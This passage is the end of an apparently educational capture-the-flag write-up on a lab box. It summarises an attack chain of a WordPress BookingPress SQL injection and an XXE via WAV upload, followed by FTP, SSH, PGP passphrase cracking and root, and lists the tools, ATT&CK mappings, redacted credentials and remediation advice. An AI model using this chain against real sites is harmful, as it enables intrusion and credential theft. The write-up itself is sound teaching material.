║   ██║   ██║╚════██║██╔══╝  ██╔══██╗    ██╔══╝  ██║     ██╔══██║██║   ██║          ║
║   ╚██████╔╝███████║███████╗██║  ██║    ██║     ███████╗██║  ██║╚██████╔╝          ║
║    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝    ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝           ║
║                                                                                   ║
║   LOCATION: /home/jnelson/user.txt                                                ║
║   FLAG: [REDACTED]                                                                ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝

╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ██████╗  ██████╗  ██████╗ ████████╗    ███████╗██╗      █████╗  ██████╗         ║
║   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝    ██╔════╝██║     ██╔══██╗██╔════╝         ║
║   ██████╔╝██║   ██║██║   ██║   ██║       █████╗  ██║     ███████║██║  ███╗        ║
║   ██╔══██╗██║   ██║██║   ██║   ██║       ██╔══╝  ██║     ██╔══██║██║   ██║        ║
║   ██║  ██║╚██████╔╝╚██████╔╝   ██║       ██║     ███████╗██║  ██║╚██████╔╝        ║
║   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝       ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝         ║
║                                                                                   ║
║   LOCATION: /root/root.txt                                                        ║
║   FLAG: [REDACTED]                                                                ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ CREDENTIALS VAULT

```
╔════════════════════════════════════════════════════════════════════════════════════════════════════════════╗
║  EXFILTRATED CREDENTIALS                                                                                   ║
╠════════════╦══════════════════╦════════════════════════════════════════════╦═══════════════════════════════╣
║  TYPE      ║  USERNAME        ║  PASSWORD / HASH                           ║  SOURCE                       ║
╠════════════╬══════════════════╬════════════════════════════════════════════╬═══════════════════════════════╣
║  WP Hash   ║  admin           ║  $P$[REDACTED]                             ║  SQL Injection                ║
║  WP Hash   ║  manager         ║  $P$[REDACTED]                             ║  SQL Injection                ║
║  Cleartext ║  manager         ║  [REDACTED]                                ║  Hashcat Crack                ║
║  DB Creds  ║  blog            ║  [REDACTED]                                ║  wp-config.php (XXE)          ║
║  FTP       ║  metapress.htb   ║  [REDACTED]                                ║  wp-config.php (XXE)          ║
║  SSH       ║  jnelson         ║  [REDACTED]                                ║  send_email.php (FTP)         ║
║  PGP Pass  ║  Passpie         ║  [REDACTED]                                ║  John the Ripper              ║
║  SSH       ║  root            ║  [REDACTED]                                ║  Passpie Export               ║
╚════════════╩══════════════════╩════════════════════════════════════════════╩═══════════════════════════════╝
```

---

## >_ MITRE ATT&CK MAPPING

| Tactic | Technique ID | Technique Name | Implementation |
|--------|--------------|----------------|----------------|
| **Reconnaissance** | T1595.002 | Active Scanning | Rustscan/Nmap port enumeration |
| **Initial Access** | T1190 | Exploit Public Application | WordPress SQLi + XXE |
| **Credential Access** | T1110.002 | Password Cracking | Hashcat (WordPress), John (PGP) |
| **Credential Access** | T1552.001 | Credentials in Files | wp-config.php, send_email.php |
| **Discovery** | T1083 | File and Directory Discovery | FTP enumeration |
| **Collection** | T1005 | Data from Local System | XXE file disclosure |
| **Privilege Escalation** | T1552.004 | Private Keys | PGP key cracking |

---

## >_ ARSENAL DEPLOYED

| Tool | Purpose |
|------|---------|
| **rustscan** | Fast port scanning |
| **nmap** | Service enumeration |
| **wpscan** | WordPress vulnerability scanning |
| **sqlmap** | SQL injection exploitation |
| **hashcat** | WordPress hash cracking (mode 400) |
| **curl** | Manual XXE exploitation |
| **python3** | WAV payload generation |
| **ftp** | File transfer protocol client |
| **john** | PGP passphrase cracking |
| **passpie** | Password manager exploitation |

---

## >_ LESSONS LEARNED

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│  KEY TAKEAWAYS                                                                   │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  [1] WordPress Plugin Vulnerabilities                                            │
│      - Always keep WordPress and plugins updated                                 │
│      - BookingPress < 1.0.11 has critical unauthenticated SQLi                   │
│                                                                                  │
│  [2] XXE Exploitation Complexity                                                 │
│      - Proper WAV file structure required for PHP 8 XXE exploitation             │
│      - Most online resources showed incorrect payload generation                 │
│                                                                                  │
│  [3] Configuration File Security                                                 │
│      - wp-config.php often contains database and FTP credentials                 │
│      - Sensitive files should never be web-accessible                            │
│                                                                                  │
│  [4] Credential Chain                                                            │
│      - Each credential led to the next system access                             │
│      - FTP → SSH → PGP → Root demonstrates lateral movement                      │
│                                                                                  │
│  [5] Password Manager Security                                                   │
│      - Weak passphrases compromise all stored credentials                        │
│      - Weak passphrases are terrible for protecting root access                  │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ SECURITY RECOMMENDATIONS

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│  REMEDIATION                                                                     │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  [1] BookingPress SQL Injection (CVE-2022-0739)                                  │
│      - Issue: Unauthenticated SQL injection in BookingPress < 1.0.11             │
│      - Fix: Update BookingPress to >= 1.0.11 immediately                         │
│                                                                                  │
│  [2] WordPress XXE (CVE-2021-29447)                                              │
│      - Issue: XXE via malicious WAV files in WordPress 5.6-5.7 with PHP 8        │
│      - Fix: Update WordPress to >= 5.7.1, restrict file uploads                  │
│                                                                                  │
│  [3] Hardcoded Credentials                                                       │
│      - Issue: Credentials stored in plaintext in configuration files             │
│      - Fix: Use environment variables, secrets management, rotate passwords      │
│                                                                                  │
│  [4] Weak PGP Passphrase                                                         │
│      - Issue: Password manager protected by weak passphrase                      │
│      - Fix: Use strong, random passphrases (20+ characters minimum)              │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ REFERENCES

**Vulnerabilities:**
- [CVE-2021-29447 - WordPress XXE](https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/)
- [CVE-2022-0739 - BookingPress SQLi](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)
- [WordPress XXE PoC Video](https://www.youtube.com/watch?v=3NBxcmqCgt4)

**Tools:**
- [WPScan](https://github.com/wpscanteam/wpscan)
- [SQLMap](https://github.com/sqlmapproject/sqlmap)
- [John the Ripper](https://github.com/openwall/john)
- [Passpie Password Manager](https://github.com/marcwebbie/passpie)

**Techniques:**
- [HackTricks - XXE Injection](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
- [HackTricks - SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [OWASP - XXE Prevention](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

---

```
╔══════════════════════════════════════════════════════════════════════════════════════╗
║                                                                                      ║
║   ░█▀▀░█░█░█▀▀░▀█▀░█▀▀░█▄█░░░█▀▀░█▀█░█▄█░█▀█░█▀▄░█▀█░█▄█░▀█▀░█▀▀░█▀▀░█▀▄            ║
║   ░▀▀█░░█░░▀▀█░░█░░█▀▀░█░█░░░█░░░█░█░█░█░█▀▀░█▀▄░█░█░█░█░░█░░▀▀█░█▀▀░█░█            ║
║   ░▀▀▀░░▀░░▀▀▀░░▀░░▀▀▀░▀░▀░░░▀▀▀░▀▀▀░▀░▀░▀░░░▀░▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀░            ║
║                                                                                      ║
║   WRITEUP AUTHOR: Netrunner                                                          ║
║   COMPLETION DATE: 2026-01-14                                                        ║
║   ATTACK CHAIN: SQLi > XXE > FTP > SSH > PGP Crack > Root                            ║
║                                                                                      ║
╚══════════════════════════════════════════════════════════════════════════════════════╝
```

---

<div align="center">


</div>
